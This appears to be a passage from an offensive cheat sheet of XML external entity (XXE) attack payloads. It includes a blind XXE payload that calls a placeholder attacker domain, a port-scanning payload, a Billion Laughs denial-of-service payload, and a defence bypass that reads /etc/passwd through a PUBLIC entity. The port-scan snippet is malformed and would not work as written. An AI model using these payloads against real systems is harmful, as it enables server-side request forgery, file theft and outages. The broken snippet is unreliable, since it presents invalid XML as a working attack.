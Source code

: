 ## Blind XXE with External DNS or HTTP Requests
- Inject a payload that sends a request to an external server to confirm XXE:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "http://<attacker_domain>/log"> ]>
<data>
  <user>&xxe;</user>
</data>
```

## Port Scan XXE
- Port Scanning This payload uses the server to scan for open ports on a target system:

```
<!DOCTYPE foo [
<!ELEMENT foo SYSTEM "http://localhost:8080" >]>
<foo>&xxe1;</foo>
<!ENTITY xxe1 SYSTEM "http://localhost:8081" >]
<foo>&xxe2;</foo>
<!ENTITY xxe2 SYSTEM "http://localhost:8082" >]   ...
```

## Denial of Service (Billion Laughs Attack)
- Use the Billion Laughs payload to crash the XML parser:
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
]>
<lolz>&lol2;</lolz>
```

# Bypassing Defenses

Here are techniques to bypass common defenses in XXE attacks:

## Bypass XML Schema Validation
- Applications may use XML schemas to validate input. However, external entities may still be processed if the schema doesn't block them. Test for external entity processing even with schema validation in place.

## Use Alternate Entity Types
- Some defenses may only block `SYSTEM` entities. Try using `PUBLIC` entities to bypass simple defenses:
```xml
<!ENTITY % xxe PUBLIC "data" "file:///etc/passwd">
```
